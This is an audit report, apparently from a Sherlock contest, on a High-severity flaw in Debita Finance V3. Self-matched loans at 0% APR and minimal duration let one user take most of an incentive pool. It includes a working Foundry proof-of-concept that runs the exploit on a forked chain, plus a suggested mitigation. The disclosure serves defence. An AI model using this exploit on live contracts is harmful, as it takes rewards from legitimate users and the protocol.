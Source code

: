 Nutty Snowy Robin

High

# User Can Stockpile Most Incentives Due to Lack of Control in Loan Parameters

### Summary

A user can exploit the system to claim most of incentives by being both the borrower and lender of the same loan. The protocol currently does not restrict this behavior. While the downside of being both parties is the loss of protocol fees, the exploit can still be profitable under certain conditions.

There are two types of fees imposed by the protocol:
1. **Matching Offers Fee:** For each amount of principal lent, the protocol charges a fee ranging from **0.2% to 0.8%**.
2. **Repayment Fee:** When repaying the debt, the protocol charges **15% of the accrued interest**.


If a user minimizes the fees, they can profit from double rewards while stockpiling most of the incentives pool for a given pair of tokens.

**How we can avoid the fees?**
1. **Avoiding the lender fee (15%)**:  
- Set an APR of 0% for both borrower and lender sides.  
- This is permitted by the protocol, as the condition in [`DebitaV3Aggregator:560`](https://github.com/sherlock-audit/2024-11-debita-finance-v3/blob/1465ba6884c4cc44f7fc28e51f792db346ab1e33/Debita-V3-Contracts/contracts/DebitaV3Aggregator.sol#L560) only checks that `weightedAPR` is ≤ `maxAPR`, which is satisfied when both are 0%.  

2. **Minimizing borrower fees**:  
- Use a very short loan duration, resulting in a minimum fee of 0.2%. 
- There are no controls on duration parameters, which allows setting a minimum duration without constraints.


The attacker incurs only a **0.2% loss of the principle amount in fees**, making the profitability of this attack reliant on the incentives offered for the token pair. If the incentives exceed **0.2% of the principle amount**, the attacker can profit and repeatedly exploit this to drain all available incentives for the token pair. Even with a minimal profit margin, this approach can still serve to **grief** other eligible users by monopolizing the incentives, disrupting fair distribution. 

### Root Cause

- The protocol does not enforce a **minimum APR**. This allows setting the APR to 0%, effectively bypassing lender fees.  
- The absence of a **minimum loan duration**. Without this, controlling APR becomes meaningless, as users can create loans with extremely short durations (e.g., 1 minute) and repay immediately, resulting in negligible fees even with a high APR.  

### Internal pre-conditions
The incentive rewards per amount of principle used must be greater or equal than 0.2% of the same principle amount.

### External pre-conditions

_No response_

### Attack Path
User incentivizes lending and borrowing actions when using USDC:

- **Principle**: [USDC, USDC]
- **Mode**: [lend, borrow]
- **Rewards amount**: [1000, 1000] DAI
- **Epoch**: [5, 5]

#### Data incentives:
- `LentIncentivesPerTokenPerEpoch[USDC][DAI, 5]`: 1000
- `BorrowIncentivesPerTokenPerEpoch[USDC][DAI, 5]`: 1000
- `TotalUsedTokenPerEpoch[USDC][5]`: 0

#### During Epoch 5:
People begin creating loans using USDC to receive rewards:
- `TotalUsedTokenPerEpoch[USDC][5]`: 50,000

Bob creates a **borrow order** and a **lend order** to match together:
- **Borrow Offer**:
  - `MaxAPR`: 0%
  - `Duration`: 1 day
  - `Accepted principle`: USDC
  - `Collateral amount`: 1 WBTC
- **Lend Offer**:
  - `APR`: 0%
  - `Max duration`: 3 days
  - `Min duration`: 1 day
  - `Accepted collateral`: WBTC
  - `Principle amount`: 40,000 USDC

### Matching the offer:
- `APR`: 0%
- `Duration`: 1 day
- **Protocol fee**: 80 USDC (0.2%)
- **Amount lent**: 40,000 USDC

---

### First iteration:
**Update funds incentives**:
- `LentAmountPerUserPerEpoch[Bob][USDC, 5]`: 40,000
- `TotalUsedPerTokenPerEpoch[USDC][5]`: 40,000 + 50,000 = 90,000
- `BorrowAmountPerEpoch[Bob][USDC, 5]`: 40,000

**Repay debt and accounting**:
- Bob's WBTC balance: 1 WBTC
- Bob's USDC balance: 39,920 USDC
- **Percentage Lent**: 44% (`LentAmountPerUserPerEpoch / TotalUsedPerTokenPerEpoch`)
- **Percentage Borrow**: 44% (`BorrowAmountPerEpoch / TotalUsedPerTokenPerEpoch`)
- **Amount to claim on lending**: 444 DAI (`1000 * Percentage Lent`)
- **Amount to claim on borrowing**: 444 DAI (`1000 * Percentage Borrow`)
- **Fee taken**: 80 USDC
- **Net value**: 888 DAI - 80 = 808 DAI
- **Percentage of loss**: 80 / 888 ≈ 9%

---

### Second iteration:
**Update funds incentives**:
- `LentAmountPerUserPerEpoch[Bob][USDC, 5]`: 80,000
- `TotalUsedPerTokenPerEpoch[USDC][5]`: 40,000 + 90,000 = 130,000
- `BorrowAmountPerEpoch[Bob][USDC, 5]`: 80,000

**Repay debt and accounting**:
- Bob's WBTC balance: 1 WBTC
- Bob's USDC balance: 39,840 USDC
- **Percentage Lent**: 61% (`LentAmountPerUserPerEpoch / TotalUsedPerTokenPerEpoch`)
- **Percentage Borrow**: 61% (`BorrowAmountPerEpoch / TotalUsedPerTokenPerEpoch`)
- **Amount to claim on lending**: 615 DAI (`1000 * Percentage Lent`)
- **Amount to claim on borrowing**: 615 DAI (`1000 * Percentage Borrow`)
- **Fee taken**: 160 USDC
- **Net value**: 1230 DAI - 160 = 1070 DAI
- **Percentage of loss**: 160 / 1230 ≈ 13%

---


**NOTE**: The more iterations you repeat, the greater your percentage of rewards. However, you also incur higher protocol fees. It is crucial to calculate the **optimal point of benefit** where we can maximize the profit.

### Impact

- A user can act accumulate and profit from most of the incentives allocated for a specific pair of tokens.
- A user can reduce the incentive distribution to legitimate users eligible for the same token pair, effectively griefing them.
- The user can manipulate the system to claim a disproportionate share of incentives, exceeding what they would receive under normal participation rules.

### PoC
Paste the following codes into `test/fork/Incentives/MultipleLoansDuringIncentives.t.sol`
You can run it with: `forge test --fork-url https://mainnet.base.org --fork-block-number 21151256 --no-match-path '**Fantom**' --mt testDoubleIncentives -vvvv`

<details>

<summary>Test to run</summary>

```solidity
function testDoubleIncentives() public {
        // Incentivize 1000 USDC for epoch 2 when lending
        incentivize(AERO, AERO, USDC, true, 1000e18, 2);
        vm.warp(block.timestamp + 15 days);
        // Create 3 normal loans, with 50 AERO lent each (default)
        // Balance AERO to share the incentives on: 150 AERO
        createNormalLoan(borrower, secondLender, AERO, AERO);
        createNormalLoan(borrower, thirdLender, AERO, AERO);
        createNormalLoan(borrower, firstLender, AERO, AERO);
        
        // Create a new lender
        address attacker = address(0x04);
        deal(AERO, attacker, 5000e18, true);
        
        console.log("Balance attacker of AERO before any action", IERC20(AERO).balanceOf(attacker));
        uint balanceAERObeforeAttack = IERC20(AERO).balanceOf(attacker);
        uint balanceUSDCbeforeAttack = IERC20(USDC).balanceOf(attacker);
        // Create the attack order, we can do it 6 of times:
        // 100 AERO lent each order
        // 0.2% taken = 2e17 each
        // 1st order we stockpiled = 40% of incentives
        // 2nd order we stockpiled = 57%
        // 3rd order we stockpiled = 66%
        // 4th order we stockpiled = 72%
        // 5th order we stockpiled = 76%
        // 6th order we stockpiled = 80%
        // Total fees taken: 2e17 x 6 = 1.2e18
        // Incentives for attacker = 800 USDC (80%)
        // Total AERO balance to share the incentives on = 750 AERO
        createCustomLoan(attacker, attacker, AERO, AERO);
        createCustomLoan(attacker, attacker, AERO, AERO);
        createCustomLoan(attacker, attacker, AERO, AERO);
        createCustomLoan(attacker, attacker, AERO, AERO);
        createCustomLoan(attacker, attacker, AERO, AERO);
        createCustomLoan(attacker, attacker, AERO, AERO);
        console.log("Balance attacker of AERO after the attack:", IERC20(AERO).balanceOf(attacker));
        uint balanceAEROafterAttack = IERC20(AERO).balanceOf(attacker);
        
        vm.warp(block.timestamp + 30 days);
        
        // principles, tokenIncentives, epoch with dynamic Data
        address[] memory principles = allDynamicData.getDynamicAddressArray(1);
        address[] memory tokenUsedIncentive = allDynamicData
            .getDynamicAddressArray(1);
        address[][] memory tokenIncentives = new address[][](
            tokenUsedIncentive.length
        );
        principles[0] = AERO;
        tokenUsedIncentive[0] = USDC;
        tokenIncentives[0] = tokenUsedIncentive;
        
        vm.startPrank(attacker);
        uint balanceIncentivesBefore = IERC20(USDC).balanceOf(attacker);
        incentivesContract.claimIncentives(principles, tokenIncentives, 2);
        uint balanceIncentivesAfter = IERC20(USDC).balanceOf(attacker);
        vm.stopPrank();
        uint balanceUSDCafterAttack = IERC20(USDC).balanceOf(attacker);

        // Fees taken 6 times
        uint feesTaken = (2e17 * 6);
        // Incentives taken, 80%
        uint incentivesTaken = 1000e18 * 80_00 / 100_00;
        uint totalBalanceAttackerAfter = balanceAEROafterAttack + balanceUSDCafterAttack;
        uint totalBalanceAttackerBefore = balanceAERObeforeAttack + balanceUSDCbeforeAttack;
        
        // Balance AERO:
        assertEq(balanceAERObeforeAttack, balanceAEROafterAttack + feesTaken);
        // Balance incentives:
        assertEq(balanceIncentivesAfter, balanceIncentivesBefore + incentivesTaken);
        // Total balance:
        assertGt(totalBalanceAttackerAfter, totalBalanceAttackerBefore);
    }
```

</details>




<details>

<summary>Function for creating normal loans</summary>

```solidity
// Creates a normal flow of orders and match them
    function createNormalLoan(
        address _borrower,
        address lender,
        address principle,
        address collateral
    ) internal returns (address) {
        vm.startPrank(_borrower);
        deal(principle, lender, 1000e18, false);
        deal(collateral, _borrower, 1000e18, false);
        IERC20(collateral).approve(address(DBOFactoryContract), 150e18);
        bool[] memory oraclesActivated = allDynamicData.getDynamicBoolArray(1);
        uint[] memory ltvs = allDynamicData.getDynamicUintArray(1);
        uint[] memory ratio = allDynamicData.getDynamicUintArray(1);
        uint[] memory ratioLenders = allDynamicData.getDynamicUintArray(1);
        uint[] memory ltvsLenders = allDynamicData.getDynamicUintArray(1);
        bool[] memory oraclesActivatedLenders = allDynamicData
            .getDynamicBoolArray(1);

        address[] memory acceptedPrinciples = allDynamicData
            .getDynamicAddressArray(1);
        address[] memory acceptedCollaterals = allDynamicData
            .getDynamicAddressArray(1);
        address[] memory oraclesCollateral = allDynamicData
            .getDynamicAddressArray(1);
        address[] memory oraclesPrinciples = allDynamicData
            .getDynamicAddressArray(1);

        // set the values for the loan
        ltvs[0] = 5000;
        acceptedPrinciples[0] = principle;
        acceptedCollaterals[0] = collateral;
        oraclesActivated[0] = true;

        oraclesPrinciples[0] = DebitaChainlinkOracle;
        oraclesCollateral[0] = DebitaChainlinkOracle;

        address borrowOrderAddress = DBOFactoryContract.createBorrowOrder(
            oraclesActivated,
            ltvs,
            1400,
            864000,
            acceptedPrinciples,
            collateral,
            false,
            0,
            oraclesPrinciples,
            ratio,
            DebitaChainlinkOracle,
            150e18
        );

        vm.stopPrank();

        vm.startPrank(lender);
        IERC20(principle).approve(address(DLOFactoryContract), 100e18);
        ltvsLenders[0] = 5000;
        ratioLenders[0] = 5e17;
        oraclesActivatedLenders[0] = true;
        address lendOrderAddress = DLOFactoryContract.createLendOrder(
            false,
            oraclesActivatedLenders,
            false,
            ltvsLenders,
            1350,
            8640000,
            86400,
            acceptedCollaterals,
            principle,
            oraclesCollateral,
            ratioLenders,
            DebitaChainlinkOracle,
            50e18
        );
        vm.stopPrank();
        vm.startPrank(connector);

        address[] memory lendOrders = allDynamicData.getDynamicAddressArray(1);
        uint[] memory lendAmountPerOrder = allDynamicData.getDynamicUintArray(
            1
        );
        uint[] memory porcentageOfRatioPerLendOrder = allDynamicData
            .getDynamicUintArray(1);
        address[] memory principles = allDynamicData.getDynamicAddressArray(1);
        uint[] memory indexForPrinciple_BorrowOrder = allDynamicData
            .getDynamicUintArray(1);
        uint[] memory indexForCollateral_LendOrder = allDynamicData
            .getDynamicUintArray(1);
        uint[] memory indexPrinciple_LendOrder = allDynamicData
            .getDynamicUintArray(1);

        lendOrders[0] = lendOrderAddress;
        lendAmountPerOrder[0] = 50e18;

        porcentageOfRatioPerLendOrder[0] = 10000;
        principles[0] = principle;

        // match
        address loan = DebitaV3AggregatorContract.matchOffersV3(
            lendOrders,
            lendAmountPerOrder,
            porcentageOfRatioPerLendOrder,
            borrowOrderAddress,
            principles,
            indexForPrinciple_BorrowOrder,
            indexForCollateral_LendOrder,
            indexPrinciple_LendOrder
        );

        DebitaV3LoanContract = DebitaV3Loan(loan);
        vm.stopPrank();
    
    }
```

</details>


<details>

<summary>Function for creating attacker loans</summary>

```solidity
// 1. Creates both offers (attacker)
    // 2. Match the offers (connector)
    // 3. Repays the debt (attacker)
    // 4. Claims collateral (attacker)
    // 5. Claims debt (attacker)
    function createCustomLoan(
        address _borrower,
        address lender,
        address principle,
        address collateral
    ) internal returns (address) {
    
        // Collateral 100 AERO
        // Lend 100 AERO
        // LTV 100%
        // APR 0%
        // Duration: 1 day
        vm.startPrank(_borrower);
        IERC20(collateral).approve(address(DBOFactoryContract), 100e18);
        bool[] memory oraclesActivated = allDynamicData.getDynamicBoolArray(1);
        uint[] memory ltvs = allDynamicData.getDynamicUintArray(1);
        uint[] memory ratio = allDynamicData.getDynamicUintArray(1);
        uint[] memory ratioLenders = allDynamicData.getDynamicUintArray(1);
        uint[] memory ltvsLenders = allDynamicData.getDynamicUintArray(1);
        bool[] memory oraclesActivatedLenders = allDynamicData
            .getDynamicBoolArray(1);

        address[] memory acceptedPrinciples = allDynamicData
            .getDynamicAddressArray(1);
        address[] memory acceptedCollaterals = allDynamicData
            .getDynamicAddressArray(1);
        address[] memory oraclesCollateral = allDynamicData
            .getDynamicAddressArray(1);
        address[] memory oraclesPrinciples = allDynamicData
            .getDynamicAddressArray(1);

        // set the values for the loan
        ltvs[0] = 100_00;
        acceptedPrinciples[0] = principle;
        acceptedCollaterals[0] = collateral;
        oraclesActivated[0] = false;
        ratio[0] = 1e18;
        oraclesPrinciples[0] = DebitaChainlinkOracle;
        oraclesCollateral[0] = DebitaChainlinkOracle;

        address borrowOrderAddress = DBOFactoryContract.createBorrowOrder(
            oraclesActivated,
            ltvs,
            0, // APR
            86400, // Duration 1 day
            acceptedPrinciples,
            collateral,
            false, // is nft
            0, // receipt ID
            oraclesPrinciples,
            ratio,
            DebitaChainlinkOracle,
            100e18 // amount of collateral
        );

        //vm.stopPrank();

        //vm.startPrank(lender);
        IERC20(principle).approve(address(DLOFactoryContract), 100e18);
        ltvsLenders[0] = 100_00;
        ratioLenders[0] = 1e18;
        oraclesActivatedLenders[0] = false;
        address lendOrderAddress = DLOFactoryContract.createLendOrder(
            false, // perpetual
            oraclesActivatedLenders,
            false, // lonely lender
            ltvsLenders,
            0, // apr
            864000, // max duration
            86400, // min duration
            acceptedCollaterals,
            principle,
            oraclesCollateral,
            ratioLenders,
            DebitaChainlinkOracle,
            100e18 // amount to lend
        );
        vm.stopPrank();
        vm.startPrank(connector);

        address[] memory lendOrders = allDynamicData.getDynamicAddressArray(1);
        uint[] memory lendAmountPerOrder = allDynamicData.getDynamicUintArray(
            1
        );
        uint[] memory porcentageOfRatioPerLendOrder = allDynamicData
            .getDynamicUintArray(1);
        address[] memory principles = allDynamicData.getDynamicAddressArray(1);
        uint[] memory indexForPrinciple_BorrowOrder = allDynamicData
            .getDynamicUintArray(1);
        uint[] memory indexForCollateral_LendOrder = allDynamicData
            .getDynamicUintArray(1);
        uint[] memory indexPrinciple_LendOrder = allDynamicData
            .getDynamicUintArray(1);

        lendOrders[0] = lendOrderAddress;
        lendAmountPerOrder[0] = 100e18;

        porcentageOfRatioPerLendOrder[0] = 10000;
        principles[0] = principle;

        // match
        address loan = DebitaV3AggregatorContract.matchOffersV3(
            lendOrders,
            lendAmountPerOrder,
            porcentageOfRatioPerLendOrder,
            borrowOrderAddress,
            principles,
            indexForPrinciple_BorrowOrder,
            indexForCollateral_LendOrder,
            indexPrinciple_LendOrder
        );

        DebitaV3LoanContract = DebitaV3Loan(loan);
        vm.stopPrank();

        // repay the debt
        uint[] memory indexes = allDynamicData.getDynamicUintArray(1);
        vm.startPrank(_borrower);
        IERC20(principle).approve(address(DebitaV3LoanContract), 100e18);
        DebitaV3LoanContract.payDebt(indexes);
        DebitaV3LoanContract.claimDebt(0);
        DebitaV3LoanContract.claimCollateralAsBorrower(indexes);
        vm.stopPrank();
    }
```

</details>


### Mitigation

By enforcing both a **minimum APR** and a **minimum loan duration**, the attacker would be required to pay more fees. This would disincentivize the exploit, as the costs would mostly outweigh the potential gains from the incentives. 